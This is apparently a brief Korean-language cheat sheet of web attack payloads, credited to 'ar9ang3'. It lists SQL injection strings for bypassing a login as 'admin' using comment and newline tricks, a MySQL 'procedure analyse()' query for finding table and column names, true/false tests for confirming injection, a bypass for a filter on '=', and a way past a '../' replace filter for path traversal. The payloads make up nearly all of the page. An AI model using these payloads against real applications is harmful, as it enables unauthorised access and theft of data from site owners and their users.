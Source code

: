 Comment Injection

```php
'#'의 주석 범위는 1 line이다. 1 line을 나누는 기준은 %0a로 나눈다.
-> select test1 from TABLE where id='abc'# and pw='%0a or id='admin'%23
'/* */'
-> select test1 from TABLE where id='abc'/* and pw=''*/ or id='admin'%23
```

<br />

Table and Column

```mysql
select test1 from test where id='admin' and pw='1234' procedure analyse();
```

-> Use with limit 2,1

<br />

SQL Injection Attack Success

```
Use '(Single Quoter) Error
-> ' and '1'='1 , ' and '1'='2
앞은 정상적 출력되고 뒤는 출력이 안나면 성공
' or '1'='1 -> 정상 출력 되면 성공
Number Column
-> if idx=23001 == idx=23002-1 이렇게 넣었을때 정상 출력 되면 성공
Comment
-> #(%23), -- (--%20), %0a
```

<br />

Filtering

```
=이 필터링 되었을 때
1' or 2>1 -- 이렇게 조건 참 만들어서 인젝션할 수 있다.

../를 replace해주면 .././로 "../"로 만들 수 있다.
```

<br />

Unpacking js

```
console.log()
```

<br />

*Reference by ar9ang3*